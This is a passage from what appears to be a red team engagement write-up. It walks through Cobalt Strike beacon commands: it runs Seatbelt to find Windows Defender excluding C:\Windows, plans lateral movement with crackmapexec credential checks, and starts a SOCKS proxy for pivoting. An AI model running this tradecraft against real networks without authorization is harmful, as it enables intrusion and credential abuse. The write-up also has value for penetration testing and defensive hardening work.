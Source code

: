 With that the credentials are stored in Cobalt Strike teamserver (the C&C). Now we can start island hopping (pivoting) the machines one by one. You're suppose to have SMB listener setup to connect with other Windows workstations on the active directory network. But before I even do that I was genuinely curious of what Antivirus or EDRs they have installed on their machines. I've ran `Seatbelt.exe` to enumerate Microsoft Exchange server from the initial foothold and this what surprised me.

```
beacon> execute-assembly /home/userware/csharp-tools/Privesc/Seatbelt.exe -group=all
[*] Tasked beacon to run .NET program: Seatbelt.exe -group=all
[+] host called home, sent: 661567 bytes
..[snip]..
====== WindowsDefender ====== 

Locally-defined Settings:

 Path Exclusions:
   C:\Windows  -> LOOOOOOL!!!!!!

 PolicyManagerPathExclusions:
   C:\Windows  -> LOOOOOOL!!!!!!



GPO-defined Settings:

 Path Exclusions:
   C:\ProgramData\Oracle\Java
   C:\Windows  -> LOOOOOOL!!!!!!

 PolicyManagerPathExclusions:
   C:\ProgramData\Oracle\Java
   C:\Windows  -> LOOOOOOL!!!!!!
..[snip]..
```

I was laughing my ass off and great thing about this configuration we didn't have to give away our prepared malware so we can hop all around network freely. Thank you lazy admin I hope your boss will be happy about this. Normally on every red team assessment you gotta at least prepare payloads to evade Antivirus or any EDR (Endpoint) solutions. On Cobalt Strike you must have the `artifacts` and `resources` that the vendor supplies with it.

Now for lateral movement stage. First you must check what credentials on every machine you discover you can do this to run on beacon command with `net user \\<IP>`. However, I had a quicker solution so we don't have to run it every single time since I like to test things because why not user? All thanks to __*byt3bl33d3r*__ for making `crackmapexec` to check which credentials have administrative privileges. Most penetration testing distributions have this preinstalled if not you can just run `sudo apt install crackmapexec`.

First I run SOCKS4A on the teamserver:
```
beacon> socks 8888
[*] started SOCKS4a server on: 8888
```
